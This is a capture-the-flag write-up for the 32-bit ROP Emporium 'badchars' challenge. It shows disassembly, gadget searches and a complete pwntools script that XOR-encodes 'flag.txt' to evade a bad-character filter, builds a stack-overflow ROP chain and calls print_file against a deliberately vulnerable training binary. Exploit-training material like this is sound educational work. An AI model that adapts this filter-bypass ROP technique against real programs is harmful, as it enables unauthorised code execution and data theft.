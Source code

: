 # badchars - 32 Bit
Program execution:
```
badchars by ROP Emporium
x86

badchars are: 'x', 'g', 'a', '.'
> <input_here>
```
Run checksec: `checksec ./badchars32`
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Again, `main` call `pwnme`, which is defined in the given libbadchars32.so.

Disassembling libbadchars32.so shows that `pwnme` unsafely reads too many (0x200) bytes in to a 32 byte buffer at `ebp-0x28`:
```assembly
push    0x200 {var_44}
lea     eax, [ebp-0x38]
add     eax {var_2c}, 0x10
push    eax {var_2c} {var_48}
push    0x0
call    read
```

We also find some code that checks our input for bad characters ('x'/0x78, 'g'/0x67, 'a'/0x61, '.'/0x2E). If any of these characters are found, they will be replaced with 0xeb which will invalidate our rop chain, making it incorrect.
```c
0000072a  puts("badchars are: 'x', 'g', 'a', '.'")
0000073c  printf(data_8bd)
00000755  int32_t eax_1 = read(0, &var_2c, 0x200)
000007b5  for (int32_t var_38 = 0; var_38 u< eax_1; var_38 = var_38 + 1)
000007a2      for (int32_t var_34_1 = 0; var_34_1 u<= 3; var_34_1 = var_34_1 + 1)
00000787          if (*(&var_2c + var_38) == *(badcharacters + var_34_1))
0000078e              *(&var_2c + var_38) = 0xeb
```

Like in the last challenge, there is a `print_file` function which will print a file specified by the string argument (filename string address). So we want to pass "flag.txt" into this function.
Running `rabin2 -z badchars32` reveals that there is no flag.txt string:
```
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000005e0 0x080485e0 11  12   .rodata ascii nonexistent
```
Let's find a writeable area of memory, where we can write our "flag.txt" string.
`readelf -S badchars32`:
```
There are 30 section headers, starting at offset 0x17a4:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 00003c 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481e8 0001e8 0000b0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          08048298 000298 00008d 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          08048326 000326 000016 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         0804833c 00033c 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             0804835c 00035c 000008 08   A  5   0  4
  [10] .rel.plt          REL             08048364 000364 000018 08  AI  5  23  4
  [11] .init             PROGBITS        0804837c 00037c 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080483a0 0003a0 000040 04  AX  0   0 16
  [13] .plt.got          PROGBITS        080483e0 0003e0 000008 08  AX  0   0  8
  [14] .text             PROGBITS        080483f0 0003f0 0001d2 00  AX  0   0 16
  [15] .fini             PROGBITS        080485c4 0005c4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080485d8 0005d8 000014 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        080485ec 0005ec 000044 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048630 000630 000114 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049efc 000efc 000004 04  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f00 000f00 000004 04  WA  0   0  4
  [21] .dynamic          DYNAMIC         08049f04 000f04 0000f8 08  WA  6   0  4
  [22] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [23] .got.plt          PROGBITS        0804a000 001000 000018 04  WA  0   0  4
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a020 001020 000004 00  WA  0   0  1
  [26] .comment          PROGBITS        00000000 001020 000029 01  MS  0   0  1
  [27] .symtab           SYMTAB          00000000 00104c 000440 10     28  47  4
  [28] .strtab           STRTAB          00000000 00148c 000213 00      0   0  1
  [29] .shstrtab         STRTAB          00000000 00169f 000105 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

So we know we need to write "flag.txt" to .data, but what ROP gadgets can we use to achieve that? We need to find `mov` gadgets that work with memory address (`[reg]` notation). We also bear in mind our bad bytes to filter out: ('x'/0x78, 'g'/0x67, 'a'/0x61, '.'/0x2E)
`ropper -f badchars32 --search 'mov [???], ???' -b 7867612E`:
```
[INFO] File: badchars32
0x0804854f: mov dword ptr [edi], esi; ret;
```
So we have 1 gadgets that lets us move the value in `esi` into the address specified by the value of `edi`. So now we need gadgets to pop data off the stack into `esi` and `edi`
`ropper -f badchars32 --search 'pop esi; pop edi;' -b 7867612E`:
```
[INFO] File: badchars32
0x080485b9: pop esi; pop edi; pop ebp; ret;
```
We have a gadget that will let us pop `esi` and `edi` as needed but also `ebp` which we can just load dummy data into.
Since we can only move 4 bytes at a time, we will have to do 3 moves. One for "flag", one for ".txt" and one for "\x00\x00\x00\x00" so that our string ends with a null terminator.
Each time we write 4 bytes, remember we need to offset the .data address to write to, by 4.

However we aren't done. We have to account for the fact that 'g', 'a' and '.' are bad bytes but they are required to represent the string "flag.txt". We'll need to encrypt this string in our exploit to bypass badchar checks, then we can decrypt it once it's already in memory.
An easy encryption technique is `xor`.
`ropper -f badchars32 --search 'xor' -b 7867612E`:
```
[INFO] File: badchars32
0x08048713: xor byte ptr [ebp + 0xe], cl; and byte ptr [edi + 0xe], al; adc al, 0x41; ret;
0x08048547: xor byte ptr [ebp], bl; ret;
0x080485cf: xor ebx, dword ptr [edx]; add byte ptr [eax], al; add esp, 8; pop ebx; ret;
```
Luckily for us, we have an `xor` gadget so this is actually a viable technique. Since the `xor` is done byte at a time (lowest byte of the 4-byte register, as we're deal with little endian), we'll need some gadgets to load target address into `ebp` and a gadget to load our bitmask (for `xor`) into `ebx`.
`ropper -f badchars32 --search 'pop ebp' -b 7867612E`:
```
[INFO] File: badchars32
0x08048525: pop ebp; lea esp, [ecx - 4]; ret;
0x080485bb: pop ebp; ret;
```
`ropper -f badchars32 --search 'pop ebx' -b 7867612E`
```
[INFO] File: badchars32
0x080485b8: pop ebx; pop esi; pop edi; pop ebp; ret;
0x0804839d: pop ebx; ret;
```

Exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./badchars32"

p = process(PROG_NAME)
elf = p.elf
rop = ROP(elf)

if args.ATTACH:
  gdb.attach(p, '''break main''')

bad_bytes = b'xga.'
# ascii is 0-127, so we can just xor 128
bitmask = 1<<7

data_addr = 0x0804a018
mov_ptr_edi_addr = 0x0804854f # mov dword ptr [edi], esi; ret;
pop_esi_edi_ebp_addr = 0x080485b9 # pop esi; pop edi; pop ebp; ret;
xor_ptr_ebp_bl = 0x08048547 # xor byte ptr [ebp], bl; ret;
pop_ebp = 0x080485bb # pop ebp; ret;
pop_ebx = 0x0804839d # pop ebx; ret;
p.recvuntil(b'> ')

payload = b'A' * (0x28 + 0x4)

for i, string in enumerate([b'flag', b'.txt', b'\x00'*4]):
  # build our string, 4 bytes at a time

  payload += p32(pop_ebx)
  payload += p32(bitmask)
  payload += p32(pop_esi_edi_ebp_addr)

  # xor each byte to bypass badchars check
  for c in string:
    payload += p8(c ^ bitmask)

  payload += p32(data_addr + i*4)
  payload += b'AAAA'
  payload += p32(mov_ptr_edi_addr)

  for j in range(4):
    # in-memory data manipulation to undo xor
    payload += p32(pop_ebp)
    payload += p32(data_addr + i*4 + j)
    payload += p32(xor_ptr_ebp_bl)


# with our .data set up, we can call print_file
payload += p32(elf.symbols['print_file'])
payload += b'A' * 4
payload += p32(data_addr)

p.sendline(payload)

p.interactive()
```

And we get the flag:
```
Thank you!
ROPE{a_placeholder_32byte_flag!}
```